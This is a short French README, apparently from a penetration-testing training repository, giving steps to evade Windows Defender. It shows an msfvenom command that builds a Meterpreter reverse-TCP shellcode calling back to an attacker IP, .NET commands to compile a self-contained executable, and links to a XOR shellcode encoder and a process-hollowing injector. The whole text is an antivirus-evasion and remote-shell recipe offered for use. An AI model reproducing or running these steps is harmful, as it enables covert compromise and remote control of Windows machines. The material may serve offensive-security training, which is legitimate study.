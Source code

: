 Contournement de la protection antivirale de Windows Defender avec une injection de shellcode préalablement obfusqué avec une fonction XOR.

#Steps

```sh
msfvenom --platform windows -a x64 -p windows/x64/meterpreter/reverse_tcp LPORT=4443 LHOST=192.168.45.128 EXITFUNC=thread -f csharp
```

Le script `XorCoder` pour obfusquer son payload avec une fonction XOR : [XorCoder](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs)

Créer un nouveau projet `.NET` en mode console dans et compiler le projet sous la forme d'un seul fichier exécutable intégrant ses librairies

```c#
dotnet new console
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```

Le script de Process Hollowing pour injecter notre shellcode dans un processus en stand-by : [Process Hollowing](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs)


